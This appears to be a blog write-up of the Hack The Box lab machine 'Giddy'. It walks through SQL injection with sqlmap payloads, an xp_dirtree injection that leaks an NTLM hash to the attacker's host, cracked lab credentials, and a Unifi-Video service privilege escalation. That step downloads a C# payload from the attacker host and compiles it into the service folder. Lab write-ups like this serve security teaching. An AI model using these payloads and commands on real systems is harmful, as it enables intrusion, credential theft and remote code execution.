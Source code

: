 ```yaml
---
layout: post
title: HTB Giddy -- medium
---
```


Quick overview:
IIS Server hosting site with SQLi vulnerbility. 
Use dirtree to execute Out-of-Band SQLi to responder to capture netNTLM hash. Crack the hash with hashcat for credentialed access via winrm. 
Log in as Stacy and find constrained powershell and Windows Defender. Enumerate and find vulnerable Unifi-Video service.
Use the Spookflare dropper and loader to drop a .cs payload in the directory of the service (\ProgramData\unifi-video\payload.cs) then used ‘lolbin’ cse.exe to compile the cs file. 
Restart the service and get an Administrator shell.

Starting off with an nmap scan, increasing the `--min-rate` and lowering the `--max-retries` to quickly scan every tcp port, we find web services running on 
ports 80 and 443 as well as RDP and WinRM services running on 3389 and 5985 respectively.

```
# Nmap 7.70 scan initiated Sat Sep 22 10:48:16 2018 as: nmap -sC -sV -Pn -vv --min-rate 1000 --max-retries 1 -p- -oA fast-all-tcp-scan --open 10.10.10.104
Nmap scan report for 10.10.10.104
Host is up, received user-set (0.50s latency).
Scanned at 2018-09-22 10:48:16 EDT for 154s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/http      syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Issuer: commonName=PowerShellWebAccessTestWebSite
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-06-16T21:28:55
| Not valid after:  2018-09-14T21:28:55
| MD5:   78a7 4af5 3b09 c882 a149 f977 cf8f 1182
| SHA-1: 8adc 3379 878a f13f 0154 406a 3ead d345 6967 6a23
| -----BEGIN CERTIFICATE-----
| MIICHTCCAYagAwIBAgIQG2rbVjzfZqJIr005rMK4xTANBgkqhkiG9w0BAQUFADAp
| MScwJQYDVQQDDB5Qb3dlclNoZWxsV2ViQWNjZXNzVGVzdFdlYlNpdGUwHhcNMTgw
| NjE2MjEyODU1WhcNMTgwOTE0MjEyODU1WjApMScwJQYDVQQDDB5Qb3dlclNoZWxs
| V2ViQWNjZXNzVGVzdFdlYlNpdGUwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGB
| ALOvHao3JEpJzzBHR9oCc+934QLPu2vRlC7jZAwySPX6v6fkvzsDr7uD50maLVtW
| 9etn9KVwfmgkYd6YtY+86YCc935s1rppNtNKeVXsG/PM4G+4HdPFf1Ik3Vj6fc1y
| w1nx2PLSNvlC74kkc33MA8y//vxqIckSJiHiVa5ZzdR/AgMBAAGjRjBEMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBS4T3PavA05OLCMaCa6GqgXsjCoozAO
| BgNVHQ8BAf8EBAMCBSAwDQYJKoZIhvcNAQEFBQADgYEAm6FzHooZ+SSLNp9KvPdX
| jjFPpf9Jv4j8Ao9qv1RnbwmTE5SSHhusXDOiAIOsErTVdaNa0VRcduMt+H054kfp
| 1MeoYvKXuXlMLbGe+orEIiVPjC/7cTJIVyfgyhdl5PdtetlZGrspK8h+2QqvxXpF
| im+bXy93yFQ6G9tOrzpBmFY=
|_-----END CERTIFICATE-----
|_ssl-date: 2018-09-22T14:45:44+00:00; -5m03s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Issuer: commonName=Giddy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-16T01:04:03
| Not valid after:  2018-12-16T01:04:03
| MD5:   b47a f83e d35a f9ce a8f2 3f12 553a 9d64
| SHA-1: e983 d0c5 32d9 1bff bb6c 39dd 3a9e 572d b451 f4ec
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQfSH4DfRyF5NCIy8oSsHfrTANBgkqhkiG9w0BAQsFADAQ
| MQ4wDAYDVQQDEwVHaWRkeTAeFw0xODA2MTYwMTA0MDNaFw0xODEyMTYwMTA0MDNa
| MBAxDjAMBgNVBAMTBUdpZGR5MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEA3y0jlRGIQp0h+vm1uicIT17fmPX/TunxMJLoYMt8VNIk+y1o7IODDHEGrvLc
| 5CRHN5q5PcFkPiBZTMBgr4dytGeZ5oULQn4+/4J+BSOEj0Bt/bvfxxLKXSDT0R/V
| pYbi60sq+S0x/58uV2YzyNasErEBkpoxg4RWZMAJwAZ/BILpbco79swPZjo0pCkg
| +JY+ZrUPz7DhkPEIFPgyXWrob39UECrqDVGeBZCdb/l6zTpkDMuZaC6Ii1QtQ3RK
| KJEqLujC8iI21xUQL4x4HJFowytSVVVDjsjcZD4R/nztkOazvqiMr+T4M9RoLBsx
| s9SDnTT4PnEZxiCSf0WRZM3K4QIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAKsIrKXwUFq9UGUZSLcP
| e1S6m16BIBSOowftntZ9/hKPe7ho20tArV7DE3zGD3IiUt65Ktcwp2JwCmFR241G
| gTURI+RWQAyLxwB24Y40Pt9rDSnxH77mVS3rcvsubmDIOERpnnapJXqeq32UYw0c
| 8bEHWEJKJLzbmjEvjh1IWTyEY3JAqzZAoGoHzCuYUZzrt7BUo37S6is39dL1hU0f
| g9MZTfIDuqL8nut1/ejfL+nN7kdqCfS5usBouOnpdlbjY43snVFITWbuWnEF18s7
| 1Z8M7kwq2WZZ7fTCyDo9uONrfmxZtQk1bDE/QJlbr71hfn0u45KAj9taWOsmns5Q
| guY=
|_-----END CERTIFICATE-----
|_ssl-date: 2018-09-22T14:45:44+00:00; -5m02s from scanner time.
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -5m02s, deviation: 0s, median: -5m03s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 22 10:50:50 2018 -- 1 IP address (1 host up) scanned in 153.96 seconds
```

No credential yet to log in to either RDP or WinRM and brute forcing is unlikely without even a user name to go on I take a look at the web site.

![](https://braaaax.github.io/braaaax.github.io/images/giddy-mvc.png)

We see it's a sales site. It's managing its inventory with a database on the backend that it accessing with a GET request ie `GET /mvc/Product.aspx?ProductSubCategoryId=18`

This looks like an opportunity for SQL injection. So we capture the request in Burp Suite.

```
GET /mvc/Product.aspx?ProductSubCategoryId=18 HTTP/1.1
Host: giddy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://giddy.htb/mvc/
Cookie: .redirect.=3891ECAA60B1511BE0B3BE314EAB9C9082A082F1755D5C485DFE7B6CE27AA7CC03FD824DD9CB06D2D5C5B470A84AF87BAAED0B7877A16FA21B09BB0E0C1FF51753F891E0670C2A44B940BD18922267B72C5C0E2F12E244921B89ACA7E74673E1D6008AAD630C505B23C4447BE181519A037DE150326090D3936F41135D5DAAC5; ASP.NET_SessionId=lunz1qjw14x3aoyc0yrhpzx3; __AntiXsrfToken=85c10a48e20b4503a77526ffa0b5ea36
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Running sqlmap with the saved product request from above returns a vulnerable injection point.

`sqlmap -r product.req`

```
GET parameter 'ProductSubCategoryId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 121 HTTP(s) requests:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=18 AND 1781=1781

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=18 AND 1834 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(118)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (1834=1834) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(120)+CHAR(122)+CHAR(113)))                                                                                              

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(122)+CHAR(118)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (3086=3086) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(120)+CHAR(122)+CHAR(113))                                                                                                               

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=18;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=18 WAITFOR DELAY '0:0:5'

    Type: UNION query
    Title: Generic UNION query (NULL) - 25 columns
    Payload: ProductSubCategoryId=18 UNION ALL SELECT NULL,NULL,CHAR(113)+CHAR(122)+CHAR(118)+CHAR(120)+CHAR(113)+CHAR(72)+CHAR(76)+CHAR(111)+CHAR(85)+CHAR(105)+CHAR(108)+CHAR(114)+CHAR(72)+CHAR(80)+CHAR(89)+CHAR(89)+CHAR(116)+CHAR(72)+CHAR(109)+CHAR(68)+CHAR(109)+CHAR(69)+CHAR(72)+CHAR(115)+CHAR(87)+CHAR(104)+CHAR(98)+CHAR(108)+CHAR(116)+CHAR(115)+CHAR(100)+CHAR(76)+CHAR(116)+CHAR(106)+CHAR(97)+CHAR(73)+CHAR(100)+CHAR(68)+CHAR(83)+CHAR(122)+CHAR(121)+CHAR(98)+CHAR(97)+CHAR(112)+CHAR(67)+CHAR(113)+CHAR(113)+CHAR(120)+CHAR(122)+CHAR(113),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- AuQr
---
```

There is nothing of interest in the database so I try to get a hash (NTLMv2) with:

`/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\\10.10.14.8\test1'; exec master.dbo.xp_dirtree @q`

![](https://braaaax.github.io/braaaax.github.io/images/giddy-out-of-band.png)

Which I catch with Responder

![](https://braaaax.github.io/braaaax.github.io/images/giddy-responder.png)

The hash gives us a username in the first section: Stacy

Relaying is out of the question since there is only one box and we can't relay back to the same box. So I try to crack the hash with hashcat and it works!

![](https://braaaax.github.io/braaaax.github.io/images/giddy-hashcat.png)

Now we have credentials for our user Stacy

```
DOMAIN\User: GIDDY\Stacy
Password: xNnWo6272k7x
```

I hop on over to my Win10 VM, because I hate using the ruby and python winrm scripts as they drop the connection too often, and nothing beats a Windows box for WinRM sessions.

I add these commands to configure my session:

```
winrm quickconfig
Enable-WSManCredSSP -Role Client -DelegateComputer compatibility
winrm set winrm/config/client '@{TrustedHosts="10.10.10.104"}'
$username = 'Stacy'
$password = 'xNnWo6272k7x'
$securepass = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securepass
$session = New-PSSession -ComputerName 10.10.10.104 -Credential $credential
```

I begin my enumeration, but it isn't until I read `\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` that I find the vulnerable service. 

The plan is to restart the service, which is run as a privileged user, and upon restart my compiled malware will be executed and I will get a call back as System.

![](https://braaaax.github.io/braaaax.github.io/images/giddy-spookflare.png)


```
Invoke-WebRequest -outfile \ProgramData\unifi-video\payload.cs http://10.10.14.8/payload.cs
\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe -out:\ProgramData\unifi-video\taskkill.exe \ProgramData\unifi-video\payload.cs
Stop-Service -Name Unifivideoservice -Force
Start-Service -Name Unifivideoservice
```

Success. System rooted. 

![](https://braaaax.github.io/braaaax.github.io/images/giddy-final.png)

